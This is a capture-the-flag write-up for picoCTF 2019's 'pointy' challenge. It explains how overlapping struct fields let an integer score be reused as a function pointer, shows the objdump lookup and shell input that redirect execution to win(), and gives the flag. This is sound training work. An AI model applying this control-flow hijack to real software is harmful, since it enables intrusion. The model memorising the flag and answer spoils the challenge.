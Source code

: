 ## Writeup for 2019 picoCTF: pointy

### Problem
> Exploit the function pointers in this [program](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln). It is also found in /problems/pointy_0_4da9845cb7c41585de522db47f569424 on the shell server. [Source](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln.c).  
  
Note the one function pointer in vuln.c's struct Student: `void (*scoreProfessor)(struct Professor*, int)` and that scoreProfessor is called on line 93.  

To get the program to call `win()`, we need to somehow assign `win()`'s address to `scoreProfessor`. Access to `scoreProfessor` via a student is already blocked by `student->scoreProfessor=&giveScoreToProfessor`.  However:    
1. `lastscore` and `scoreProfessor` have the same offset from the respective struct's address.  
2. The `student` and `professor` variables in `main` are cast from the return values of retrieveStudent and retrieveProfessor, which are identical.  

This means we could give `win()`'s address as a professor's score. Then, cast the professor into a student, which effectively casts Professor's `int lastscore` to Student's `void (*scoreProfessor)(struct Professor*, int)` ie. casts the professor's score to a pointer to `win()`. Thus the next time `student->scoreProfessor` is called, win would be executed.  

### Solution: objdump
1. First `objdump -D vuln | grep win` to disassemble all sections of vuln to get addresses. 
2. Pipe that ouput to `grep` to get only the win function section. You will find that `08048696` is win()'s address in hex, which converts to `134514326` as int / unsigned int.  

**Here is how the interaction in the shell goes**:
```
@pico-2019-shell1:/problems/pointy_0_4da9845cb7c41585de522db47f569424$ ./vuln
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score   
s0  
Input the name of the professor that will be scored  
s0  
s0  
Input the score:  
134514326  
Score Given: 134514326   
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score  
s0
Input the name of the professor that will be scored 
s0  
s0  
Input the score:  
0  
```
**Flag: picoCTF{g1v1ng_d1R3Ct10n5_d9be6a30}**
